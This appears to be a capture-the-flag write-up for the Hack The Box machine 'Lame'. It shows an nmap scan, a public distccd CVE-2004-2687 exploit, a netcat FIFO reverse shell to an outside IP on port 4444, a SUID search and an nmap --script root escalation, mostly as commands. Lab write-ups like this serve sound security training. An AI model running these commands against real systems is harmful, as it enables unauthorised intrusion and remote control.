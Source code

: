 [https://app.hackthebox.com/machines/Lame](https://app.hackthebox.com/machines/Lame)
We start by doing a scan of ports and services with the nmap tool.
```JavaScript
sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.10.3 > escaneo.txt
```
![[/Untitled 36.png|Untitled 36.png]]
![[/Untitled 1 2.png|Untitled 1 2.png]]
After researching about vsftpd and not finding anything, I searched about distccd and found the following
![[/Untitled 2 3.png|Untitled 2 3.png]]
```JavaScript
git clone https://github.com/angelpimentell/distcc_cve_2004-2687_exploit
python3 distcc_cve-2004-2687_exploit.py -i <ip> -p <port>
python3 distcc_cve-2004-2687_exploit.py -i 10.10.10.3 -p 3632
```
![[/Untitled 3 3.png|Untitled 3 3.png]]
We launch a reverse shell on port 4444, to explore the system in a more comfortable way.
![[/Untitled 4 2.png|Untitled 4 2.png]]
```JavaScript
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.37 4444 >/tmp/f
```
![[/Untitled 5 2.png|Untitled 5 2.png]]
We inspect the directories inside the home directory and find the user flag
![[/Untitled 6 2.png|Untitled 6 2.png]]
When doing sudo -l we are asked for the password so we look for binaries with SUID permissions and highlight one in particular
```JavaScript
find / -perm -4000 2>/dev/null
```
![[/Untitled 7 2.png|Untitled 7 2.png]]
We search in GTFOBins
![[/Untitled 8 2.png|Untitled 8 2.png]]
We enter the following
![[/Untitled 9 2.png|Untitled 9 2.png]]
by adding to the last command the localhost we have access to
```JavaScript
sudo install -m =xs $(which nmap) .
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
./nmap --script=$TF 127.0.0.1
```
![[/Untitled 10 2.png|Untitled 10 2.png]]
Root flag
  
![[/Untitled 11 2.png|Untitled 11 2.png]]